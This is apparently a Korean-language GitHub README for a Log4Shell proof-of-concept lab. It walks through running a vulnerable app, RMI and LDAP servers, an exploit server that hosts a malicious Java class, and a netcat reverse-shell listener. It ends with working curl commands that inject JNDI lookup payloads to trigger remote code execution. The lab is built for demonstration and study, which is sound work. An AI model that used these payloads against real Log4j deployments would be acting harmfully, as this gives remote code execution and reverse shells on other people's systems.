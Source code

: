 # Log4Shell-PoC
Log4Shell PoC with RMI, openLDAP

---- 

# 각 서비스에 대한 설명

|구분|위치|포트(TCP)|설명|
|:--:|:--:|:--:|:--:|
|`Vulnerable Application`|Docker 컨테이너 | 7777 | 취약한 웹 애플리케이션 서버로, Log4Shell 취약점이 발생된다.|
|`RMI Server` | Docker 컨테이너 | 1099 | Vulnerable Appliation으로 부터 RMI 요청을 전달받아, RCE 를 발생시키기 위한 페이로드를 응답한다.|
|`LDAP Server` | Docker 컨테이너 | 389 (openLDAP Server)8080 (phpLDAPadmin)|Vulnerable Appliation으로 부터 LDAP 요청을 전달받아, 악성 Java 객체를 다운로드 받도록 javaCodeBase 속성 값에 Exploit Server 주소 값을 전달한다.|
|`Exploit Server` | 호스트 | 8888 | /Exploit.class 를 요청할 경우 RCE를 일으키는 악성 Java 객체를 반환한다.|
|`nc -lv 9999` | 호스트 | 9999 | Vulnerable Application과 리버스 방식으로 셸을 연결하기 위함|

---- 

# PoC

## 0. 시연영상
> 아래 사진을 클릭하면 PoC 시연 영상으로 이동됩니다. <br>
> 또는, [https://youtu.be/hd-EQSkEjpM](https://youtu.be/hd-EQSkEjpM) 로 직접 확인하실 수 있습니다.

[![Log4Shell PoC with RMI, LDAP](./images/img-001.png)](https://youtu.be/hd-EQSkEjpM)


## 1. Vulnerable Application 셋팅 및 실행

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

## 2. RMI Server 셋팅 및 실행

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## 3. LDAP Server 셋팅 및 실행

> 악성 응답 데이터가 이미 셋팅되어 있다. 

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

    >  위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 웹 UI로 접속할 수 있다.

2. LDAP 서버로 들어오는 요청을 확인하기 위해 아래의 명령어를 입력하여 로그 정보를 출력한다.
    
    ```bash
    docker container logs openldap -f
    ```

## 4. Exploit Server 셋팅 및 실행

> 참고로, 악성 Java 객체가 이미 컴파일 되어 저장소에 Commit 상태이다.

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server 8888
    ```

## 5. 리버스 셸 준비

1. 호스트 셸에서 아래의 명령어를 입력하여 `9999` 포트로 Listen

    > Exploit 이후, 연결이 끊어질 수 있다. 이에 연결이 끊긴 경우 아래 명령어를 재입력 한다.
    
    ```bash
    nc -lv 9999
    ```

## 6. Exploit 수행

> Exploit은 Host에서 Vulnerable Application으로 요청을 수행한다.

### [Exploit] Log4Shell using RMI
```bash
curl localhost:7777/log -H 'msg: ${jndi:rmi://host.docker.internal:1099/Services}'
```

### [Exploit] Log4Shell using LDAP
```bash
curl localhost:7777/log -H 'msg: ${jndi:ldap://host.docker.internal:389/cn=payload,ou=payloads,dc=example,dc=com}'
```